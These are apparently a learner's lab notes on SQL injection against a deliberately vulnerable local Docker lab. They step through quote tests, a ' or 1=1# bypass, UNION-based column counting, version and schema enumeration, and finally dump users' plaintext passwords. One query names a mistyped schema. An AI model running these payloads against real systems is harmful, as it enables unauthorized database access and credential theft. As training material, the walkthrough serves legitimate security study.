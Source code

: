 
to run lab

```sh
sudo docker-compose up
```

to run the docker container as background process use

```sh
sudo docker-compose up -d
```
-d:detach

to reset all the labs go to /init.php

to check what containers are running:

```sh
sudo docker ps -a
```

to stop containers

```sh
sudo  docker-compose stop
```


LAB

Check for everything we are supplying like username, password or even cookies

enter a valid username

i/p:
jeremy
o/p:
Username: jeremy - Email: jeremy@example.com

i/p: '
o/p:No users found

i/p: "
o/p:No users found


i/p: jeremy"
o/p:No users found

probably query in backend
Select Email 
From Users
Where username="i/p"

i/p: jeremy' or 1=1#
o/p:
Username: jeremy - Email: jeremy@example.com

Username: jessamy - Email: jessamy@example.com

Username: bob - Email: bob@example.com

In SQL
\# or -- - are called terminator and do not evaluate anything after that

we provide ' after jeremy to terminate the username then provide logical OR operator and write another query 1=1 which is a true statement so when the Query  

Select Email 
From Users
Where username="i/p"
OR 
1=1 

it will always be true and we get entire DB

------
***If we use UNION we can only select same number of columns as in first query eg:

Select username,passwd UNION Select passwd,age from ...

***we have to select same number of attributes/columns***

--------

## To find number of columns in target DB

i/p:
jeremy' union select null#
o/p:
No users found

i/p:
jeremy' union select null,null#
o/p:
No users found

i/p:
jeremy' union select null,null,null#
o/p:
Username: jeremy - Email: jeremy@example.com

Username: - Email:

so we can tell there are 3 columns in the table

i/p:
jeremy' union select null,null,version()#
o/p:
Username: jeremy - Email: jeremy@example.com

Username: - Email: 8.0.33

we use version() as  third parameter to get version of database 
and we get the version as 8.0.33


i/p:
jeremy' union select null,null,table_name from information_schema.tables #

o/p:
Username: jeremy - Email: jeremy@example.com

Username: - Email: ADMINISTRABLE_ROLE_AUTHORIZATIONS

Username: - Email: APPLICABLE_ROLES

Username: - Email: CHARACTER_SETS

Username: - Email: CHECK_CONSTRAINTS

Username: - Email: COLLATIONS

Username: - Email: COLLATION_CHARACTER_SET_APPLICABILITY

Username: - Email: COLUMNS

Username: - Email: COLUMNS_EXTENSIONS


i/p:
jeremy' union select null,null,column_name from information_columns.columns #
o/p:

Username: jeremy - Email: jeremy@example.com

Username: - Email: USER

Username: - Email: HOST

Username: - Email: GRANTEE

Username: - Email: username

Username: - Email: password

Username: - Email: mfa

Username: - Email: lockout_count

Username: - Email: registration

Username: - Email: positionx

Username: - Email: positiony

Username: - Email: destinationx

Username: - Email: destinationy

Username: - Email: address

Username: - Email: email

Username: - Email: session

Username: - Email: image

Username: - Email: price

Username: - Email: message

i/p:
jeremy' union select null,null,password from injection0x01#

o/p:
Username: jeremy - Email: jeremy@example.com

Username: - Email: jeremyspassword

Username: - Email: jessamyspassword

Username: - Email: bobspassword

we get all passwords and not just jeremy's


sometimes null dosent work so we need to add data type of the column

**jeremy' union select null(int),null,password from injection0x01#**

